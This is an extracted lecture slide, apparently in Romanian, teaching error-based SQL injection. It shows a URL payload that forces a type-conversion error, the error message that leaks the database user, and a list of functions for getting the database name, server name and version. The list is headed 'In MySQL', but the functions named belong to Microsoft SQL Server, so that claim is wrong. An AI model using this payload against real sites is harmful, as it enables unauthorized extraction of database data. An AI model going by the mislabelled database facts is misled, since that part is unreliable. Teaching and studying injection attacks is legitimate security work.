

SQLI bazat pe erori

http://[site]/page.asp?id=1 or 1=convert(int,(USER))--

Syntax error converting the nvarchar value '[j0e]' to a column of data type int!

În MySQL
 - un utilizator al bazei de date se obţine folosind USER
 - numele bazei de date se obţine folosind DB_NAME
 - numele serverul BD se obţine folosind @@servername
 - versiunea sistemului de operare se obţine din @@version